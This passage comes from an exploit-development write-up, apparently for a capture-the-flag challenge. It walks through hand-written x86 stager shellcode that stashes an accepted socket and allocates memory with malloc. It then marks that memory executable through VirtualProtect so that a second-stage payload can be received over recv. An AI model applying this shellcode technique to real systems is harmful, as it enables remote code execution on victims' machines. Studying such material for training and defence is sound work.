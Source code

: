 {% codeblock Register contents %}
EAX 000000A4
ECX 0024A888
EDX 00000009
EBX 00403424 <JMP.&WS2_32.accept>
ESP 00B5FF4C
EBP 42424242
ESI 42424242
EDI 00000084
EIP 00B5FFF3
O 0  LastErr ERROR_SUCCESS (00000000)
{% endcodeblock %}

Another round of success, only this time we have a meaningful value in `EAX` that we need to keep. This is the _accept socket_ handle, which is the handle that points to the client that has just connected. This is the handle we need to pass to `recv` in order pull data from the attacker. We don't need our bind socket handle any more so the first thing we do is persist this in `EDI`.

{% codeblock ASM listing %}
MOV EDI, EAX          ; Stash the new accept socket
{% endcodeblock %}

The final hurdle is the call to `recv`, but this comes with a caveat: we need to give `recv` a handle to an area of memory that is readable, writable and executable (RWX). Originally I had built this exploit to just reuse a part of the stack, but that didn't port too well to other operating system versions so instead, I thought allocating memory and changing its protection would make more sense. Let's get the `malloc` function ready, the abuse the socket handle value in `EAX` to create a sane buffer size which we push twice (one as a param to `malloc` and the other to persist the value across calls).

As this point we're out of bytes in our first block (actually, just before making the call we run out of bytes). So we need to jmp back to the start of our shellcode with a `JMP` instruction and carry on from there:

{% codeblock ASM listing %}
MOV BX,3DD4           ; Set EBX up for the `malloc` call
MOV AH,AL             ; use the socket handle as a size fudger
PUSH EAX              ; push for size persistence for later use
CALL EBX              ; Invoke `malloc`
JMP <address>         ; Jmp back to the start of block 2
{% endcodeblock %}

The result of `malloc` is memory which needs to be marked as executable, and that lives in `EAX`. We'll push this value on the stack for later use, and then set up the virtual protect call:

{% codeblock ASM listing %}
POP ECX, PUSH ECX     ; get a copy of the size in ECX
MOV ESI, EAX          ; save the memory handle for later use
PUSH EAX              ; push the handle onto the stack as well
MOV BX,0x3EA4         ; Set EBX up for the `virtualprotect` call
LEA EAX, [ESP-0x24]   ; Calculate somewhere sane on the stack
PUSH EAX              ; Push this value as the buffer for the old protection
PUSH 0x40             ; Mark the area as RWX
PUSH ECX              ; specify the memory size to change protection on
PUSH ESI              ; Point to the memory to protect
CALL EBX              ; Invoke `VirtualProtect`
{% endcodeblock %}


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux
